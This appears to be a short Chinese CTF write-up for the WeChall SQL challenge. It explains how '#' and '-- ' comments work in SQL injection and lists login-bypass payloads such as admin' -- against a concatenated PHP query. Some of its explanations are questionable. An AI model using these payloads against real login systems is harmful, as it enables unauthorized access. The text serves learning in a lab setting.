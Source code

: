 ```yaml
---
title: WeChall_SQL
date: 2022-10-06
description: 关于#和--在sql中的具体用法
category: 信息安全
tags:
  - CTF
  - Web
  - SQL
---
```

# --和#的具体用法
`#`是php和sql中的注释，而`--`仅是sql语言中的注释,`--`在使用时后面必须有一个空格
原题代码为`$query = "SELECT * FROM users WHERE username='$username' AND password='$password'";`
`admin' and username='admin';#`       可以
`admin' and username='admin'#`        不可以 ,结尾没有`;`，语句错误

 
`Admin' -- yes i can`                 可以
`Admin' --yes i can`                  不可以，--后面没有空格
`Admin' --`                           不可以，--后面没有空格（后面的句子会顶上来）
`Admin' -- (a space here)`            可以

为什么`--`注释可以不用管最后的`;`呢？因为`--`只是sql中的注释语句。
此时完整的语句为`$query = "SELECT * FROM users WHERE username='Admin' -- yes i can' AND password='$password'";`
sql在查询时被注释掉了，但整个php语句没有被注释掉
 